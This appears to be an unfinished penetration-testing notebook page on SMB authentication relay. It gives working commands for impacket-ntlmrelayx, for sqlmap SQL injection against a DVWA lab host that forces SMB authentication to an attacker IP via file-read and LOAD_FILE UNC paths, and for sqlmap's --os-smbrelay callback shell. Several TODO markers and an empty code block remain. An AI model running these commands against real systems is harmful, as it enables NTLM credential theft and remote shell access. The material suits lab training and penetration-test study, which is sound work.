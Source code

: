 TODO: Fill in this info to test a windows environment

TODO: Test this and place it where it's appropriate

#### 5.3.1.2 - Grab NTLM Hashes via SMB Authentication Relay

- Run [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/08 - Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes. This also can be done with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/06 - Client-Side Attacks/Authentication Relay/Metasploit#^0c8cfd|metasploit SMB relay auxiliary module]] including [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/06 - Client-Side Attacks/Authentication Relay/Impacket/Impacket|ntlmrelayx]].

- Responder

```

```

- Metasploit Framework

```
smb_relay
```

- Impacket ntlmrelayx

```
$ sudo impacket-ntlmrelayx -t smb://<target_IP> -smb2support
```

- Exploit the webserver via SQL injection manually using either `--file-read` or `--sql-query`.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="\\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --sql-query="SELECT LOAD_FILE('\\\\<attacker_IP>\\snare.txt')"
```

#### 5.3.2.2 - Authenticated SMB Relay Callback Shell

##### 5.3.2.2.1 - Automated

- Exploit the webserver via SQL injection with `--os-smbrelay` but run with root privileges.

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-smbrelay
```

##### 5.3.2.2.2 - Manual

Repeat the [[05 - Initial Foothold|previous step]] and launch [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/06 - Client-Side Attacks/Authentication Relay/Impacket/Impacket|ntlmrelayx]] and/or [[02 - Responder|Responder]] to receive a callback shell connection. This can be done with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/06 - Client-Side Attacks/Authentication Relay/Metasploit#^c109ec|metasploit SMB relay exploit module]].
